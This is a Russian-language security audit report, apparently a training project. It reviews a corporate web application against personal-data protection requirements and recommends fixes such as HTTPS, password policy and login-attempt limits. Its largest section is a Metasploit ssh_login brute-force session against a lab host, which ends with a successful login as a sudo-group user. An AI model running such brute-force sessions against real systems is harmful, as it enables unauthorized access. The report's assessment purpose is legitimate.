

# Отчет


В ходе изучения корпоративного сетевого приложения "Защищённый контур" от компании Х был выявлен ряд несоответствий системы требованиям нормативных документов.

### 1. ПДн: реализация мер по обеспечению безопасности в части ИАФ, УПД.

- ИАФ.1 Идентификация и аутентификация пользователей, являющихся работниками оператора

  Реализовано.

- ИАФ.З Управление идентификаторами, в том числе создание, присвоение, уничтожение идентификаторов

  **Не реализовано.** Нет ограничение на повторное использование идентификатора пользователя. 

- ИАФ.4 Управление средствами аутентификации, в том числе хранение, выдача, инициализация, блокирование средств аутентификации и принятие мер в случае утраты и (или) компрометации средств аутентификации.

  **Не реализовано.** Не задана минимальная сложность пароля пользователя, не задано минимальное количество измененных символов при создании новых паролей.

- ИАФ.5 Защита обратной связи при вводе аутентификационной информации

  **Не реализовано.** При вводе пароля поле ввода не должно дать возможности лицу, не допущенному к данной системе увидеть вводимые символы и количество введенных символов. Рекомендация - скрыть символы и длину пароля при вводе.

- ИАФ.6 Идентификация и аутентификация пользователей, не являющихся работниками оператора (внешних пользователей)

  Реализовано.

- УПД.1 Управление (заведение, активация, блокирование и уничтожение) учетными записями пользователей, в   том числе внешних пользователей.

  Реализовано.

- УПД.2 Реализация необходимых методов (дискреционный, мандатный, ролевой или иной метод), типов (чтение, запись, выполнение или иной тип) и правил разграничения доступа.

  Реализовано.

- УПД.З Управление (фильтрация, маршрутизация, контроль соединений, однонаправленная передача и иные способы управления) информационными потоками между устройствами, сегментами информационной системы, а также между информационными системами.

  **Не реализовано. **Для доступа к системе используется незащищенный протокол http, который передает данные в открытом виде. и позволяет их перехватить или заменить. Рекомендация - использовать криптозащищенный протокол https. 

- УПД.4 Разделение полномочий (ролей) пользователей, администраторов и лиц, обеспечивающих функционирование информационной системы.

  Реализовано.

- УПД.5 Назначение минимально необходимых прав и привилегий пользователям, администраторам и лицам, обеспечивающим функционирование информационной системы.

  Реализовано.

- УПД.6 Ограничение неуспешных попыток входа в информационную систему (доступа к информационной системе). 

  **Не реализовано.** Влечет за собой риск подбора пароля администратора или пользователя методом перебора (брутфорс). Рекомендация - добавить ограничение на количество неудачных попыток, после истечения которых временно блокировать учетную запись.

- УПД.13 Реализация защищенного удаленного доступа субъектов доступа к объектам доступа через внешние информационно-телекоммуникационные сети

  **Не реализовано.** Не обеспечивается возможность фильтрации информационных потоков (фаерволл). 

- УПД.14 Регламентация и контроль использования в информационной системе технологий беспроводного доступа.

  **Не реализовано.** Никаких регламентов нет. 

- УПД.15 Регламентация и контроль использования в информационной системе мобильных технических средств

  **Не реализовано.** Никаких регламентов нет.

- УПД.16 Управление взаимодействием с информационными системами сторонних организаций (внешние информационные системы)

  **Не реализовано.** Никаких регламентов и порядков не описано.

### 2. КТ: "разрешение или запрет доступа к информации, составляющей коммерческую тайну" посредством механизмов разграничения доступа, встроенных в приложение.

- Доступ к странице, содержащей коммерческую тайну доступен без авторизации на сайте по прямой ссылке: http://192.168.56.102:8888/administrate/index.html. Рекомендации - настроить ограничение доступа к страницам сервиса по прямой ссылке неавторизованным пользователям и пользователям, не состоящим в группе "КТ".


### 3. При проверке системы были выявлены следующие уязвимости:

1. Испольльзование незащищенного протокола http. Данная уязвимость позволяет просматривать нешифрованный трафик при атаке "человек посередине". Ниже отображение передаваемой в открытом виде связки логин/пароль: 

   Рекомендация - использовать криптозащищенный протокол https.

   

2. Присутствует возможность перебора связки логина/пароля к SSH. Можно использовать Metaisploite framework для подбора по списку. Настроить ограничение на количество попыток через hashlimit, либо отключить ssh. Ниже наглядное представление подбора.

   ```bash
   msf6 > use auxiliary/scanner/ssh/ssh_login 
   msf6 auxiliary(scanner/ssh/ssh_login) > options
   
   Module options (auxiliary/scanner/ssh/ssh_login):
   
      Name              Current Setting  Required  Description
      ----              ---------------  --------  -----------
      BLANK_PASSWORDS   false            no        Try blank passwords for all users
      BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
      DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
      DB_ALL_PASS       false            no        Add all passwords in the current database to the list
      DB_ALL_USERS      false            no        Add all users in the current database to the list
      DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
      PASSWORD                           no        A specific password to authenticate with
      PASS_FILE                          no        File containing passwords, one per line
      RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploi
                                                   t
      RPORT             22               yes       The target port
      STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
      THREADS           1                yes       The number of concurrent threads (max one per host)
      USERNAME                           no        A specific username to authenticate as
      USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
      USER_AS_PASS      false            no        Try the username as the password for all users
      USER_FILE                          no        File containing usernames, one per line
      VERBOSE           false            yes       Whether to print output for all attempts
   
   msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.56.102
   RHOSTS => 192.168.56.102
   msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE ~/netology/
   3-10  3-12  kurs  
   msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE ~/netology/kurs/
   sk.bin     users.txt  
   msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE ~/netology/kurs/users.txt
   USER_FILE => ~/netology/kurs/users.txt
   msf6 auxiliary(scanner/ssh/ssh_login) > exploit
   
   [*] 192.168.56.102:22 - Starting bruteforce
   [*] Error: 192.168.56.102: Metasploit::Framework::LoginScanner::Invalid Cred details can't be blank, Cred details can't be blank (Metasploit::Framework::LoginScanner::SSH)
   [*] Scanned 1 of 1 hosts (100% complete)
   [*] Auxiliary module execution completed
   msf6 auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
   VERBOSE => true
   msf6 auxiliary(scanner/ssh/ssh_login) > exploit
   
   [*] 192.168.56.102:22 - Starting bruteforce
   [*] Error: 192.168.56.102: Metasploit::Framework::LoginScanner::Invalid Cred details can't be blank, Cred details can't be blank (Metasploit::Framework::LoginScanner::SSH)
   [*] Scanned 1 of 1 hosts (100% complete)
   [*] Auxiliary module execution completed
   msf6 auxiliary(scanner/ssh/ssh_login) > set USER
   set USERNAME       set USERPASS_FILE  set USER_AS_PASS   set USER_FILE      
   msf6 auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE ~/netology/kurs/users.txt
   USERPASS_FILE => ~/netology/kurs/users.txt
   
   Module options (auxiliary/scanner/ssh/ssh_login):
   
      Name              Current Setting            Required  Description
      ----              ---------------            --------  -----------
      BLANK_PASSWORDS   false                      no        Try blank passwords for all users
      BRUTEFORCE_SPEED  5                          yes       How fast to bruteforce, from 0 to 5
      DB_ALL_CREDS      false                      no        Try each user/password couple stored in the current database
      DB_ALL_PASS       false                      no        Add all passwords in the current database to the list
      DB_ALL_USERS      false                      no        Add all users in the current database to the list
      DB_SKIP_EXISTING  none                       no        Skip existing credentials stored in the current database (Accepted: none, user, u
                                                             ser&realm)
      PASSWORD                                     no        A specific password to authenticate with
      PASS_FILE                                    no        File containing passwords, one per line
      RHOSTS            192.168.56.102             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using
                                                             -Metasploit
      RPORT             22                         yes       The target port
      STOP_ON_SUCCESS   false                      yes       Stop guessing when a credential works for a host
      THREADS           1                          yes       The number of concurrent threads (max one per host)
      USERNAME                                     no        A specific username to authenticate as
      USERPASS_FILE     ~/netology/kurs/users.txt  no        File containing users and passwords separated by space, one pair per line
      USER_AS_PASS      false                      no        Try the username as the password for all users
      USER_FILE         ~/netology/kurs/users.txt  no        File containing usernames, one per line
      VERBOSE           true                       yes       Whether to print output for all attempts
   
   msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE ~/netology/
   3-10  3-12  kurs  
   msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE ~/netology/kurs
   kurs
   msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE ~/netology/kurs/
   sk.bin     users.txt  
   msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE ~/netology/kurs/users.txt
   PASS_FILE => ~/netology/kurs/users.txt
   msf6 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_ACCESS true
   STOP_ON_ACCESS => true
   msf6 auxiliary(scanner/ssh/ssh_login) > run
   
   [*] 192.168.56.102:22 - Starting bruteforce
   [-] 192.168.56.102:22 - Failed: 'root:root'
   [-] 192.168.56.102:22 - Failed: 'root:admin'
   [-] 192.168.56.102:22 - Failed: 'root:test'
   [-] 192.168.56.102:22 - Failed: 'system:sdf'
   [-] 192.168.56.102:22 - Failed: 'system:fsd'
   [+] 192.168.56.102:22 - Success: 'system:system' 'uid=1000(system) gid=1000(system) groups=1000(system),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare) Linux sk 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux '
   
   ```

   

   
